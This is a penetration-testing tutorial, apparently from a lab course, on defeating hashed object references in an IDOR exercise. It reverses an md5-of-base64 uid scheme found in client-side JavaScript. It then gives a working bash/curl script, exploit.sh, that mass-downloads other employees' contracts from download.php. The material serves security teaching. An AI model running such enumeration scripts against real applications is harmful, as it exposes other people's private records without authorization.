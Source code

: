 # Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the `Employee Manager` web application to test the `Contracts` functionality:

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it is sending a `POST` request to `download.php` with the following data:

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:

```shell-session
$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the `md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a `Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

***

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell-session
$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

{% hint style="info" %}
**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.
{% endhint %}

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

***

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

```shell-session
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

```shell-session
$ bash ./exploit.sh
$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.
